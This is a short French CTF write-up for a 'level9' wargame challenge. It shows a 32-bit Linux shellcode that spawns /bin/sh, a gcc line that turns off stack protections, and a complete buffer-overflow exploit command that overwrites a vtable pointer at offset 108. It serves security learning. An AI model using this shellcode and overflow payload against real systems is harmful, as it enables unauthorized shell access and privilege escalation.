 # level9

On va apprendre à faire des shellcodes: [Shellcoding in Linux (pdf)](https://www.exploit-db.com/docs/english/21013-shellcoding-in-linux.pdf)

On a ce tuto dans le pdf ci-dessus:
```c
/*shellprogram.c
Kerala Cyber Force – Ajin Abraham */

char code[] =
  "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89
  \x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\
  xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e\x58\x58\x58\x58\x59\x59\x59\x59";

int main(int argc, char **argv) {
  int (*exeshell)();

  exeshell = (int (*)()) code;
  (int)(*exeshell)();
}
```

```bash
$ gcc -fno-stack-protector -z execstack -no-pie -o coucou -m32 shellcode.c
```

And... It works !!!!

Notre `argv[1]` nous permet de faire un buffer overflow, on a un offset de **108**.

On souhaiterait réecrire l'adresse de la vtable, qui est déréférencé à l'appel de `operator+()`, pour executer notre shellcode. \
On ajoute à la fin du payload une adresse qui pointe vers l'endroit où trouve le pointeur qui pointe vers le début de notre payload \
Pour l'obtenir, on met un breakpoint après l'appel de `setAnnotation`, et en regardant la stack le pointeur que l'on cherche est stack+4

```bash
./level9 $(python -c 'print "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e\x58\x58\x58\x58\x59\x59\x59\x59" + ("A" * (108-55)) + "\x94\xf6\xff\xbf"')
```
